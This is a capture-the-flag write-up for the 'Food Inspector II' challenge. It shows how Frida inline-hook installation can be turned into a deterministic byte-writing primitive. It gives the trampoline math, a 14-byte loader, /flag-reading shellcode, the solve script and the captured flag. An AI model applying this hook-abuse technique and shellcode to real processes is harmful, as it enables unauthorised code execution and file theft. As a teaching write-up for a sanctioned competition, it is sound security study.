

# Food Inspector II

<p align="center">
  <a href="https://binary.ninja/"></a>
  <a href="https://github.com/Vector35/binaryninja-mcp"></a>
  
  
  
</p>

**Category:** Misc / Pwn | **Difficulty:** Hard Extra Spicy | **Author:** Ik0ri4n | **Flag:** `GPNCTF{Fa5ciN47In6,_wh47_FRIDA_caN_do_wi7h_b4S1C41LY_nO7HinG_if_yOU_try_HARD_ENOUGH,_RiGHt?}`

> 🩸 **First blood.** The next solve landed roughly **12 hours later**, which is the kind of gap that makes you stare at the scoreboard like it owes you rent.

## Before the Food Arrives

> [!IMPORTANT]
> Tiny writeup-prize housekeeping first: [Binary Ninja](https://binary.ninja/) was genuinely important to solving this, and not in the obligatory "thanks to my sponsors" way. It made the "wait, this binary really does nothing" moment obvious in about four seconds and kept the offset bookkeeping sane once Frida started turning polite instrumentation into byte graffiti.
>
> The part that actually mattered: Binary Ninja ships an **[MCP server](https://github.com/Vector35/binaryninja-mcp) you can drop in as a plugin**, so the LLM I was working with could read the decompiler, pull disassembly, chase xrefs, and check my trampoline math *directly out of the database* instead of me hand-copying bytes into chat like a line cook reading a recipe over a bad phone connection. Pairing with a model on a binary stops being a game of telephone and starts feeling like having a sous-chef who can actually see the same cutting board you're working on. For a challenge that lives or dies on getting `rel32` exactly right, having the model verify offsets against ground truth instead of vibes was the difference between a plated dish and a kitchen fire.
>
> And honestly, once you've seasoned your Binary Ninja setup to taste — linear view where you want it, types you've named, the IL level you like — pulling information out of it is *frictionless*. It's the difference between a mise en place where every ingredient is prepped and within arm's reach, and rummaging through a cold walk-in fridge mid-service hoping the shallots are in there somewhere. The tool gets out of the way, and on a challenge this fiddly, the tool getting out of the way is most of the battle.

This challenge also hit a weirdly personal part of my brain. A lot of my boyhood was tied to Mannheim, Germany, where my grandparents lived, and they were originally from Landskrona, Sweden. Mannheim is close enough to the conference that the event already had that "wait, I know this place" feeling, and the CTF had plenty of Denmark references too, especially in the OSINT challenge. Trips over to Copenhagen to go to Tivoli were part of the background music of that side of my childhood, so the whole thing felt oddly close to home before the exploit even started. Then this challenge turned into a first blood, and suddenly I was emotionally invested in a tiny binary whose entire personality was `return 0;`. Computers are normal.

## At a Glance

| Piece | Short version |
| --- | --- |
| Result | First blood on an extra spicy challenge |
| Weird flex | The next solve showed up roughly 12 hours later |
| Target | A PIE binary whose `main()` just returns `0` |
| Actual bug | The "inspector" tool lets us choose where Frida installs inline hooks |
| Winning move | Use hook add/remove as a deterministic byte-writing primitive |
| Payload plan | Bake a 14-byte loader, then send real shellcode over stdin |
| Kitchen tools | Binary Ninja + its [MCP plugin](https://github.com/Vector35/binaryninja-mcp) as my LLM sous-chef — frictionless once seasoned to taste |
| Personal seasoning | Mannheim grandparents, Landskrona family roots, Copenhagen/Tivoli nostalgia, Denmark-flavored OSINT, and a scoreboard ending that still tastes a little burnt |

## Menu

- [TL;DR](#tldr)
- [What We're Given](#what-were-given)
- [Initial Recon](#initial-recon)
- [The Vulnerability / Trick](#the-vulnerability--trick)
- [Building the Exploit](#building-the-exploit)
- [Running It](#running-it)
- [The Scoreboard Bruise](#the-scoreboard-bruise)
- [Key Takeaways](#key-takeaways)

## TL;DR

We're handed a friendly "food inspector" CLI that can attach and detach [Frida](https://frida.re/) hooks at any offset inside a tiny do-nothing binary called `app`. Think of it as a health inspector who walks into a restaurant with an empty dining room and an empty kitchen — there's nothing to inspect, but they brought a power drill anyway. The binary itself is empty — `main` just returns `0`. The whole challenge is realizing that *attaching a Frida hook is a memory write*. In layman's terms: the tool that is supposed to watch the program has to poke bytes into the program to do its watching, and the challenge accidentally lets us steer where those pokes land. Because the trampoline addresses are perfectly deterministic, we can use "add hook / remove hook" as a surgical **byte-writing primitive**. We bake a 14-byte loader into `main` one byte at a time, trick Frida into marking the data pages executable, feed real shellcode over stdin, and pop the flag.

<details>
<summary><strong>Non-pwn translation: why this is funny</strong></summary>

Imagine the challenge gives you a very official inspector who can place a tiny detour sign anywhere in a restaurant. The inspector is not supposed to cook. The inspector is not supposed to touch the food. But every time the inspector places a sign, they drill into the wall.

This exploit is noticing that the drill holes themselves can spell a message if we choose the walls carefully enough.

</details>

## What We're Given

A tarball with the service source and the target:

```text
Dockerfile          # how the challenge runs
entrypoint.sh       # starts frida-portal + exposes main.py over socat
main.py             # the "inspector" CLI we talk to
app                 # the target binary (PIE, tiny)
app.c               # source for app — literally `int main(void){return 0;}`
libs/libgadget.so   # Frida gadget, LD_PRELOAD'd into app
libs/libgadget.config
frida/frida-portal
test-flag.txt       # local stand-in for /flag
```

The `Dockerfile` tells us the flag lives at `/flag`:

```bash
docker run ... -v ./test-flag.txt:/flag food-inspector:latest
```

And `entrypoint.sh` shows the architecture:

```sh
./frida-portal -D
socat TCP-LISTEN:1337,reuseaddr,fork,max-children=1 EXEC:'uv run main.py',stderr
```

So a Frida portal runs in the background (bound to `127.0.0.1` — **not** reachable from outside), and what *we* actually get to talk to is `main.py`, the inspector CLI, over the network.

This is **part II**. Part I (`food-inspector`) used the same inspector wrapper and taught the core bug class: that `Interceptor.attach` is a write primitive. Part I got us a format-string leak; the flag literally ended with *"…shall we go a little deeper?"* — a strong hint that part II is the deeper, pure-Frida-internals version of the same idea.

## Initial Recon

First, what is `app`?

```c
// app.c
int main(void) { return 0; }
```

```text
$ checksec app
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
SHSTK:    Enabled        <- shadow stack
IBT:      Enabled        <- indirect branch tracking (endbr64 required)
```

```asm
0000000000001129 <main>:
    1129: f3 0f 1e fa     endbr64
    112d: 55              push rbp
    112e: 48 89 e5        mov  rbp, rsp
    1131: b8 00 00 00 00  mov  eax, 0
    1136: 5d              pop  rbp
    1137: c3              ret
```

There is genuinely nothing here. No input parsing, no interesting gadgets, no win function. The challenge flavor even calls the restaurant "an empty facade." The bug is **not** in `app`.

This is exactly the moment Binary Ninja earned its keep. Drop `app` in, glance at the High Level IL for `main`, and the verdict is instant: it's a one-line `return 0;` with an `endbr64` doorman out front and nothing on the menu. No second-guessing whether you missed an obfuscated branch or a sneaky constructor — the decompiler plates the whole thing in one view and you *know* the kitchen is empty. With the MCP plugin running, I could have the model confirm "yep, `main` does nothing, here's the exact byte layout" against the live database instead of me eyeballing `objdump` and hoping. That confidence is what let me stop searching the binary and start staring at the *inspector* — which is where the actual meal was being cooked.

So what can the CLI do? From `main.py`:

```text
resume        - resume the paused target process (once, at startup)
send <msg>    - send a line to the target's stdin
sendb64 <msg> - base64-decode, then send to the target's stdin
listing       - list functions (just _start and main)
add <addr>    - add a Frida hook at app.base + addr
del           - delete a hook
```

The only Frida script the CLI will ever build is hard-coded — we can **not** run arbitrary JavaScript:

```js
const offset = <addr>;
const target = Process.getModuleByName('app').base.add(offset);
Interceptor.attach(target, {
    onEnter: function (args) { console.log("Called function <addr>"); }
});
```

<details>
<summary><strong>Dead ends we burned before the lightbulb</strong></summary>

- **Reach the Frida portal directly.** If we could talk to `frida-portal` we'd just run `File.readAllText('/flag')` and go home. But ports `27042`/`27052` are bound to localhost inside the container and closed externally. No dice.
- **Smuggle a WebSocket `/ws` through the TLS front end** to reach the portal. The front end routes straight to the CLI's stdin, not the portal. Each line just printed the help text.
- **Crash the CLI for a traceback leak.** `add nope` throws a Python exception, but it only kills the connection — no flag.

</details>

That left exactly one thing the CLI gives us: *attach a Frida hook at an arbitrary offset in `app`*. If that's the intended primitive, then **the act of hooking has to be the exploit.**

## The Vulnerability / Trick

Here's the key insight. When Frida's `Interceptor.attach` installs an **inline hook** on x86-64, it doesn't politely observe — it *rewrites the code*. It overwrites the bytes at the target with a 5-byte near jump to a trampoline it allocated:

```text
e9 <rel32>      ; jmp  trampoline
```

where `rel32 = trampoline_addr - (target_addr + 5)`.

So **`add 0x1131` literally writes 5 bytes into the app's `.text` at offset `0x1131`.** That's our write. The catch is we don't directly control the *value* — it's `e9` followed by a relative offset determined by *where Frida put the trampoline*.

> [!TIP]
> If you only remember one technical idea from this writeup, make it this: **a debugging/instrumentation feature became a memory write because we controlled where the hook landed.**

Two facts turn that into real control:

1. **The trampoline layout is 100% deterministic.** Frida hands out trampoline slots in a fixed pattern. We reverse-engineered the formula (verified identical in local Docker and on remote):

   ```python
   def tramp(i):                      # address of the i-th trampoline (as an app offset)
       return 0x6008 + 0x8000 * (i // 112) + 0x100 * (i % 112)
   ```

   Four blocks of 112 slots each (bases `0x6008`, `0xe008`, `0x16008`, `0x1e008`), and Frida stops allocating around slot 418.

2. **The freelist is LIFO.** `del` unloads a hook and frees its trampoline. If we `del` one specific hook and immediately `add` a new one, the new hook *reuses that exact trampoline slot*. So by choosing **which** pool hook to free, we choose **which** trampoline (and therefore which `rel32`) the next hook gets.

Put those together: the **second byte of `rel32`** (`(rel32 >> 8) & 0xff`) is something we can dial to any value we want by picking the right trampoline slot.

### Writing one chosen byte

Okay, picture the kitchen. The food inspector (`add`/`del`) is allowed to place exactly one detour sign, and every time they do, they drill a hole in the wall. We, the line cook with something to hide, want a *specific* byte scratched into a *specific* brick. So we do what every restaurant employee does thirty seconds before the health inspector walks in: a frantic, perfectly choreographed shuffle where everything ends up looking innocent and nobody can prove we touched anything.

To plant byte `b` at address `X`:

1. Find a pool slot whose trampoline `R` satisfies `((R - (X-2) - 5) >> 8) & 0xff == b`. *(Scan the walk-in for the one brick that, when drilled, leaves exactly the scratch we want.)*
2. `del` that pool slot (frees its trampoline → it's next in line). *(Quietly clear the counter so the next thing the inspector does lands where we need it.)*
3. `add (X-2)` — the **generator**. Frida stamps `e9 <rel32>` starting at `X-2`, so the rel-high byte (`b`) lands exactly at **`X`**. *(The inspector drills the wall; we positioned the wall so the hole spells our letter.)*
4. `add X` — the **saver**. Attaching here makes Frida snapshot the now-correct bytes at `X` as that hook's "original," so they survive later cleanup. *(Take a Polaroid of the evidence while it looks good, so we can restore it later — "no officer, it always looked like this.")*
5. `del` the generator → Frida restores `X-2`'s neighbours but `X` stays as the saver remembers it. *(Putty over the extra holes; leave the one that matters.)*
6. Re-`add` the pool slot to keep the pool full and the layout stable. *(Restock the shelf so nobody notices a brick went missing.)*
7. `del` the saver → it re-writes our byte `b` at `X` on the way out. *(The saver "tidies up" and, on its way out the door, stamps our byte right back in. Inspector signs off. Health rating: A. Reality: arson.)*

It is deeply cursed. It also works. One `(X, b)` per loop iteration — which means we run this entire don't-look-behind-the-counter routine fourteen separate times, sweating a little more each pass, like a cook who keeps having to walk past the inspector to "grab something from the back."

> [!WARNING]
> The honest, painful part: this primitive is only reliable for **short, isolated** patches. Frida's inline-hook install/uninstall leaves NOP-padding residue around short instructions, so trying to bake one long 56-byte shellcode straight into `.text` *diverges* — each bake corrupts ~6 neighbouring bytes. We spent a whole session hitting that wall (see `analysis.md`). The fix wasn't a better bake — it was **baking less.**

### The plan that actually wins: bake a tiny loader, not the whole payload

Instead of baking all the shellcode, we bake just a **14-byte loader** into `main`, then let the *loader* pull in the real shellcode at runtime over stdin. Two more tricks make that work:

- **`sendb64` gives us a clean channel into the target's stdin** — we send the real shellcode as raw bytes, no baking, no corruption.
- **NX says data isn't executable… but Frida fixes that for us.** To install a hook on a page, Frida flips that page to `rwx`. So we just `add` a couple of hooks pointing into the writable data mapping (`0x3df8`, `0x4018`) and — surprise — those pages become executable. Our loader reads shellcode into that now-executable region and jumps to it. It's the inspector themselves unlocking the back door, flipping the "employees only" sign, and holding it open for us. Thanks, chef.

## Building the Exploit

The full driver is in [`solve_remote.py`](./solve_remote.py). Here are the pieces.

### The 14-byte loader baked into `main`

```text
51 5e ff cf 57 5a b2 80 57 58 0f 05 ff e6
```

```asm
push rcx        ; 51    rcx = pointer into app's (now executable) data area
pop  rsi        ; 5e    rsi = that pointer
dec  edi        ; ff cf at main entry edi = argc = 1, so edi -> 0  (= stdin fd)
push rdi        ; 57
pop  rdx        ; 5a    rdx = 0 ...
mov  dl, 0x80   ; b2 80 ... then 0x80 -> read up to 128 bytes
push rdi        ; 57
pop  rax        ; 58    rax = 0  (= SYS_read)
syscall         ; 0f 05 read(0, rsi, 0x80)  -> pulls our shellcode from stdin
jmp  rsi        ; ff e6 jump into it
```

Why this is nice: it reuses register state that's already sitting around at `main`'s entry (`edi = argc = 1`, `rcx` conveniently pointing into app data), so it's tiny — and small means *bakeable*.

The exact `(addr, byte, slot, saver)` recipe was calibrated locally against a read-only Frida monitor until the whole 14-byte region verified, then recorded so it can be replayed verbatim (local Docker == remote, so a recording that works locally works remotely):

```python
record = [
    (0x1131, 0x51,   3, 0x1131), (0x1132, 0x5e,  16, 0x1132),
    (0x1133, 0xff, 161, 0x1133), (0x1134, 0xcf, 113, 0x1134),
    (0x1135, 0x57,   9, 0x1135), (0x1136, 0x5a,  12, 0x1136),
    (0x1137, 0xb2, 100, 0x1137), (0x1138, 0x80,  50, 0x1138),
    (0x1139, 0x57, 233, 0x1139), (0x113a, 0x58,  10, 0x113a),
    (0x113b, 0x0f, 177, 0x113b), (0x113c, 0x05, 167, 0x113c),
    (0x113d, 0xff, 385, 0x113d), (0x113e, 0xe6, 136, 0x113e),
]
```

(`main` starts at `0x1129` with `endbr64; push rbp; mov rbp,rsp`; the loader overwrites from `0x1131` onward, i.e. the original `mov eax,0; pop rbp; ret`.)

### Stage two: the real shellcode (sent over stdin)

Standard open/read/write/exit. It starts with `endbr64` because **IBT is on** and we reach it via an indirect `jmp rsi` — without the `endbr64` landing pad the CPU would fault.

```asm
endbr64
mov  rax, '/flag\0\0\0' ; push the path
push rax
mov  rdi, rsp
xor  esi, esi
mov  eax, 2             ; open("/flag", 0)
syscall
mov  edi, eax
mov  rsi, rsp
xor  edx, edx
mov  dl, 0x80
xor  eax, eax          ; read(fd, rsp, 0x80)
syscall
mov  edx, eax
mov  edi, 1
mov  rsi, rsp
mov  eax, 1            ; write(1, rsp, n)
syscall
xor  edi, edi
mov  eax, 60           ; exit(0)
syscall
```

Whatever the target writes to fd 1 gets relayed back to us by `main.py`'s output thread (`[TARGET] Received 0x… bytes:` … flag).

### Putting it together



```python
# 1) Fill a deterministic hook pool so the trampoline layout is fixed and predictable.
NPOOL, POOLBASE = 410, 0x1300
pool = [cli.add(POOLBASE + i*8) for i in range(NPOOL)]

# 2) Replay the calibrated byte-bakes to write the 14-byte loader into main.
for X, b, slot, Sv in record:
    cli.delete_label(pool[slot])        # free a slot -> its trampoline is next (LIFO)
    gen   = cli.add(X - 2)              # generator: stamps e9 rel32, rel-hi byte = b lands at X
    saver = cli.add(Sv)                 # saver: snapshots the good bytes at X
    cli.delete_label(gen)              # restore X-2's neighbours
    pool[slot] = cli.add(POOLBASE + slot*8)  # refill the pool slot
    cli.delete_label(saver)            # re-write byte b at X on unload

# 3) Touch the data pages with hooks so Frida marks them rwx (defeats NX).
cli.add(0x3df8)
cli.add(0x4018)

# 4) Queue the real shellcode on the target's stdin (no baking — clean bytes).
cli.sendb64(STAGE)

# 5) Let it rip. main runs -> loader read()s STAGE -> jmp rsi -> flag.
#    Service starts, the doctored "main" plates our shellcode, and the
#    kitchen hands /flag straight across the pass. Bon appétit.
cli.resume()
print(cli.drain(15))
```

The CLI wrapper just tracks hook indices (so `del` picks the right one), speaks the prompt protocol, and handles TLS.

## Running It

Local sanity check against the Docker image (flag mounted from `test-flag.txt`):

```bash
$ python3 solve_remote.py 127.0.0.1 1337
[*] building pool
   ... 410 / 410
[*] baking stage0
   14 / 14 0x113e 0xe6
[*] protect data pages
[*] sending stage 60
[*] resuming
[TARGET] Received ... flag{local_test_flag}
```

Then remote (the hostname rotates per instance):

```bash
$ python3 solve_remote.py torched-lobster-stuffed-with-minced-dashi-69pz.gpn24.ctf.kitctf.de 443 ssl
...
=== RAW ===
[TARGET] Received 0x5c bytes:
GPNCTF{Fa5ciN47In6,_wh47_FRIDA_caN_do_wi7h_b4S1C41LY_nO7HinG_if_yOU_try_HARD_ENOUGH,_RiGHt?}
=== END ===
[+] FLAG GPNCTF{Fa5ciN47In6,_wh47_FRIDA_caN_do_wi7h_b4S1C41LY_nO7HinG_if_yOU_try_HARD_ENOUGH,_RiGHt?}
```

🩸 First blood. The inspector signed the clipboard, declared the empty restaurant spotless, and walked out the front door never realizing the kitchen had cooked exactly one dish the entire night: `/flag`, served hot.

```text
GPNCTF{Fa5ciN47In6,_wh47_FRIDA_caN_do_wi7h_b4S1C41LY_nO7HinG_if_yOU_try_HARD_ENOUGH,_RiGHt?}
```

## The Scoreboard Bruise

This was the high point of the event for me: first blood on a hard challenge, with nobody else landing it for about twelve hours. That is the good kind of ridiculous. The kind where you walk away from the keyboard for water and immediately walk back because maybe the scoreboard blinked. For twelve hours I was the only restaurant in town with this dish on the menu, and I will not pretend I didn't keep refreshing the reviews.

The overall finish, though, stung. We ended up in second after what felt from our side like getting served a burnt dish we didn't order: another challenge went live at around **5:30 AM my time**, apparently broken at release, roughly ten minutes after the eventual first-place team finished this one. There was no clear announcement when it dropped — no waiter coming by to say "hey, the kitchen's open again," no specials board, no chalk, nothing — and when people did notice, the infrastructure was rough. The dish came out raw in the middle, the plate was cold, and somehow there was a hair in it that nobody on staff would admit to. In practice, that timing seemed to benefit exactly one table: the team that won. You sit down, you order, you wait, and somehow only one party in the whole restaurant got pulled aside and told the special was back on the menu — while the rest of us are still flagging down a server who has apparently entered witness protection.

I want to be fair here, because every kitchen has a bad night: I don't think anyone burned the dish on purpose. But when the smoke alarm goes off at 5:30 AM and exactly one table already has their food, you're allowed to raise an eyebrow at the chef.

I do not think every CTF heartbreak needs a corkboard and red string, but yeah, this one got a sticky note labeled "come on, really?" stuck to the front-of-house podium. We all felt a little done dirty, like we tipped 20% and the kitchen still comped the table next to us. Still, this challenge is the one I will remember: Mannheim grandparents, Landskrona family roots, Denmark references, a food-themed wrapper, a tiny empty binary, first blood, and a Frida exploit held together with trampoline math and spite. The main course was burnt, sure — but the appetizer was a first blood, and I'm going to keep ordering that one off the memory menu for a long time. That is a pretty good meal.

## Key Takeaways

- **The helper tool *is* the vulnerability.** The target binary was a decoy. All the power lived in the "harmless" inspector — `Interceptor.attach` modifies process memory, and that's enough.
- **Instrumentation hooks are writes.** Any framework that does inline hooking (Frida, many EDRs, hotpatchers) rewrites code at the hook site. If an attacker controls *where* you hook, they control *what gets written*, because the trampoline relative offset becomes attacker-influenced data.
- **Determinism is a weapon.** Reverse the trampoline allocator into a closed-form `tramp(i)` and confirm the freelist is LIFO, and a fuzzy side effect becomes a precise, replayable primitive. We designed the whole attack against a local read-only monitor and replayed the exact `add`/`del` stream remotely.
- **Know your primitive's limits, then design around them.** Long contiguous bakes corrupt themselves thanks to NOP-pad residue. Instead of fighting it, we baked the *smallest possible* loader and moved the real payload onto a clean channel (`sendb64` → stdin).
- **Frida defeats NX for you.** Hooking a writable page forces it to `rwx` — a free way to get an executable scratch buffer when the binary has no `mprotect` and no RWX section.
- **Mind the hardening:** IBT meant stage two needed an `endbr64` landing pad before the indirect `jmp rsi`. Easy to forget; instant fault if you do.

### A genuine (and yes, shameless) word about Binary Ninja

I'm putting this in the front window where everyone can read it: **this writeup is partly a love letter to [Binary Ninja](https://binary.ninja/), and I'm not even slightly embarrassed about it.** A challenge whose entire premise is "the binary is a decoy, the real bug is in offsets and trampoline math" is *exactly* the kind of thing where a good decompiler stops being a convenience and becomes the whole kitchen.

Three things carried me:

- **The decompiler told the truth fast.** HLIL on `main` instantly said "empty facade, move on," so I never wasted a session convincing myself the binary was hiding something. Knowing where *not* to look is half of CTF.
- **The [MCP plugin](https://github.com/Vector35/binaryninja-mcp) turned my LLM into a real sous-chef.** Instead of copy-pasting disassembly into a chat window like I'm dictating an order through a drive-thru speaker in a thunderstorm, the model read the analysis database directly — disassembly, IL, xrefs, byte layout — and checked my `rel32` arithmetic against ground truth. On a challenge where one wrong byte means a kitchen fire, that verification loop was the secret ingredient.
- **A seasoned setup is frictionless.** Once your views, types, and IL level are prepped the way you like them, getting an answer out of Binary Ninja is mise en place: every ingredient prepped, labeled, and within arm's reach. No rummaging, no cold walk-in fridge, no "where did I put the trampoline base." The tool gets out of the way, and getting out of the way is most of what a tool can do for you on something this fiddly.

If you do reversing and you haven't tried Binary Ninja with the MCP server wired up, treat this paragraph as me leaning over the table, lowering my voice, and saying *get the special.* You will not regret the special.

### Gotchas that cost us time

- Trying to bake the whole 56-byte shellcode directly into `.text` — it diverges (every bake smears ~6 neighbouring bytes). The two-stage loader is what made it reliable.
- Trampoline residues can't produce byte values `0x50–0x5f` or `0xd0–0xdf` in some positions, so the loader and slot choices had to dodge those.
- The Frida portal is a tempting shortcut (`File.readAllText('/flag')`), but it's localhost-only on remote — the CLI is the *only* way in.

## Front of House (a note on how this writeup was plated)

Quick honesty from the pass: **I cooked, but I didn't wait my own tables.**

The exploit is mine — the trampoline math, the LIFO freelist trick, the two-stage loader, the 5:30 AM staring contest with the scoreboard. That's the dish. I'm proud of the dish. But a great plate of food dropped in front of a guest with no silverware, no napkin, and an empty water glass is just a sad lukewarm experience, and that's roughly what my first draft of any writeup reads like — correct, dense, and about as welcoming as a kitchen door swinging open into your face.

So I brought on an LLM as **front of house.** I'm the chef in the back yelling about `rel32`; the AI is the server who took my pile of technical scribbles and actually *set the table* — straightened the section order, folded the napkins (read: turned my run-on byte-poking rant into seven legible steps), and made sure every reader who sits down can find the fork. It kept the water glasses full so nobody got thirsty waiting between courses, i.e. it smoothed the pacing so the dense parts don't dehydrate you. And crucially, it could read the menu *and* get the jokes — when I said "health rating: A, reality: arson," it didn't blink, it just refilled the breadbasket and said "yes chef." A server who understands both the technical fixed-price tasting menu *and* the comedy is the difference between a guest who leaves confused and a guest who leaves telling their friends about the place.

To be clear about who did what, because front-of-house and back-of-house both matter and pretending otherwise is how restaurants implode:

- **Back of house (me):** found the bug, built and debugged the exploit, captured first blood, lived every dead end in `analysis.md`, and supplied all the jokes, the grandparents, the burnt-dish grievance, and the opinions.
- **Front of house (the LLM):** plating, table layout, napkin folding, pacing, and making sure the humor and the technical bits both land for a guest who wasn't in the kitchen at 5 AM with me.

If the meal lands, it's because the kitchen *and* the dining room both showed up. And if you came here purely for the recipe, the actual cooking is all in [`solve_remote.py`](./solve_remote.py) — no garnish, just the raw ingredients. Tip your server.
